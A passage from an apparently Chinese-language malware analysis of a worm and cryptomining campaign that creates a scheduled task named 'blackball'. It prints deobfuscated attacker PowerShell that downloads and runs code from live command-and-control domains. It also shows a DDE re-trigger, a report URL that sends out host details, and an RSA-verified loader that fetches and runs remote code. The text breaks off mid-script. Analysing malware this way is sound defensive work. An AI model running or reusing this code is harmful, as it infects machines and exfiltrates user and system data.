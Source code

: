 ```xml
</script>

</scriptlet>

```

其执行代码，美化后的显示：

```powershell
IEx(New-Object Net.WebClient).DownLoadString('http://t.tr2q.com/7p.php?0.7*mail_doc*%username%*%computername%*'+[Environment]::OSVersion.version.Major);
bpu ('http://t.tr2q.com/mail.jsp?doc_0.7');
del %tmp%/RANDOM.sct
```

使用OfficeDDE功能进行二次触发：

```powershell
$dde_cmd="powershell [Reflection.Assembly]::LoadWithPartialName('Microsoft.VisualBasic');[Microsoft.VisualBasic.Interaction]::GetObject('script:%tmp%\$filename').Exec(0)&"
```

最后生成flag文件，表示已发送过邮件

```powershell
$env:tmp/godmali3.txt
```



##### report.jsp （写入定时任务blackball）

携带信息:

>   *计算机名，GUID，MAC地址，系统，系统位数，用户，域，磁盘，显卡，内存，管理员权限，本地蠕虫攻击Payload，本地xmrigPayload，xmrig版本，矿池地址，算力，开机时间，上传时间*

```
http://t.awcna.com/report.jsp?EMOSMAC2077&05DCA6CB-2A44-C943-9E0D-9ABF4B11DCA8&00:1C:42:6E:F5:42&7 旗舰版 _6.1.7601&1&EMo&WORKGROUP&&Parallels Display Adapter (WDDM)&2.25&1&&5B2849&&&&227546.396&&0.1
MD5 (report.jsp) = 6038cd68f69ac785118bb5b0d058b667
```

去除多层混淆后的源代码：

```powershell
# 若不存在传播方式变量$v则为?mig_20200427
if(!$v){
	$v='?mig_'+(Get-Date -Format 'yyyyMMdd')
}
# $v='mail'
$tmps='function a($u){$d=(Ne`w-Obj`ect Net.WebC`lient)."DownloadData"($u);$c=$d.count;if($c -gt 173){$b=$d[173..$c];$p=New-Object Security.Cryptography.RSAParameters;$p.Modulus=[convert]::FromBase64String(''2mWo17uXvG1BXpmdgv8v/3NTmnNubHtV62fWrk4jPFI9wM3NN2vzTzticIYHlm7K3r2mT/YR0WDciL818pLubLgum30r0Rkwc8ZSAc3nxzR4iqef4hLNeUCnkWqulY5C0M85bjDLCpjblz/2LpUQcv1j1feIY6R7rpfqOLdHa10='');$p.Exponent=0x01,0x00,0x01;$r=New-Object Security.Cryptography.RSACryptoServiceProvider;$r.ImportParameters($p);if($r.verifyData($b,(New-Object Security.Cryptography.SHA1CryptoServiceProvider),[convert]::FromBase64String(-join([char[]]$d[0..171])))){I`ex(-join[char[]]$b)}}}$url=''http://''+''U1''+''U2'';a($url+''/a.jsp'+$v+'?''+(@($env:COMPUTERNAME,$env:USERNAME,(get-wmiobject Win32_ComputerSystemProduct).UUID,(random))-join''*''))'

$sa=([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")
function getRan(){return -join([char[]](48..57+65..90+97..122)|Get-Random -Count (6+(Get-Random)%6))}
$us=@('t.awcna.com','t.tr2q.com','t.amynx.com')

$stsrv = New-Object -ComObject Schedule.Service
$stsrv.Connect()

# 查看是否已经存在名为blackball的定时任务
```
